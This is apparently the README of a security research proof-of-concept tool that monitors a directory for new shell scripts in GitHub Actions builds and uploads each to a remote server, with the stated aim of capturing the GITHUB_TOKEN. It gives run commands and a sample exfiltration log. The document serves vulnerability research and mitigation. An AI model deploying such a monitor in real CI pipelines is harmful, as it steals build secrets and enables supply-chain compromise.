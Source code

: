 # Github Action Shell Monitor

This python utility can help you to monitor modified shell scripts in a directory. 
Whenever it finds such a script, it also sends it to the designated server.

This utility was used as part of our Github Actions vulnerability research which we wrote about at [Cycode's Blog](https://cycode.com/blog/github-actions-vulnerabilities/).

We presented that research on multiple occasions, like [DevSecCon24](https://www.youtube.com/watch?v=zr4nka52Fk0), [Open Source Summit NA 2022](https://www.youtube.com/watch?v=dTrHKa9mbdQ), and **BSidesBud**.

This tool aims to prove the ability to get the `GITHUB_TOKEN` during Github Actions build for future `run` commands.

This script and other similar POCs are used for research purposes to prove attackers' abilities for similar acts and to help build proper security mitigations.

You can find more information on this tool usage [in this repository](https://github.com/CycodeLabs/gh-injection-vuln-demo).

## Setup

Run a simple server that logs all HTTP requests it receives in your lab environment.
You can use [our public tool](https://github.com/CycodeLabs/simple-http-logger) that does exactly the same.
You can run it through the following command:

```bash
sudo docker run --rm -it -p 8080:8080 cycodelabs/simple-http-logger
```

## How to Run

### Python

```bash
mkdir monitor
python3 action_monitor.py -d monitor -u <URL>
```

### Docker

```bash
sudo docker build -t actionmonitor .
mkdir monitor
sudo docker run --rm -v ${PWD}/monitor:/app/monitored actionmonitor -u <URL>
```

### Docker (from Docker Hub)

```bash
mkdir monitor
sudo docker run --rm -v ${PWD}/monitor:/app/monitored cycodelabs/actionmonitor -u <URL>
```

## Results

Run this on another session

```bash
echo "echo hello" > hello.sh
```

Watch the results on your lab server terminal.

```bash
Host: lab.cycode.com
User-Agent: python-requests/2.28.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Length: 154
Content-Type: multipart/form-data; boundary=e370d0e0927360a399a54b1b2a2758d1

--e370d0e0927360a399a54b1b2a2758d1
Content-Disposition: form-data; name="upload_file"; filename="hello.sh"

echo hello

--e370d0e0927360a399a54b1b2a2758d1--


1.2.3.4 - - [28/Jul/2022 13:13:17] "POST / HTTP/1.1" 200 -
```
